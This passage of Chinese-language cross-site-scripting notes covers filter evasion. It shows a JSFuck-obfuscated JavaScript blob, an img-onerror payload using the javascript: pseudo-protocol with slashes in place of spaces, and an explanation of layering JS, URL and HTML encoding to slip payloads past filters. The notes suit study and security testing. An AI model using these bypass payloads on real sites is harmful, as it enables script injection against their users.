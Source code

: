 ```
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])
```

```
在 jsfuck 中 eval        =>  []["filter"]["constructor"]( CODE )()
```

伪协议绕过(空格可以用 / 代替)

```
<img/src/onerror=location="javascript:alert(1);">
```

**目标执行顺序**

```
1.浏览器解析 HTML 标签	自动解码 HTML 的值	location="javascript:alert(1);" 为 onerror 属性的值
2.浏览器解析 location 中的 url	自动解码 URL 编码 alert(1);
3.浏览器识别 javascript 伪协议	自动解码 js 编码 alert(1);	（括号和括号内的不能编两次）

黑客编码顺序反过来321

编码过程:JS编码→伪协议URL编码→HTML编码→（URL编码传输给服务器→服务器解码URL），（）中的为浏览器向目标传输数据的编码，无需操作

解码过程:解码HTML编码→伪协议解码URL编码→JS解释器自动解码JS编码→执行
```

1.对 alert(1); 进行 unicode 编码（有的时候也可以直接对 () 进行编码，hex 不可以）

```
\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029
<img/src/onerror=location="javascript:\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029">
```
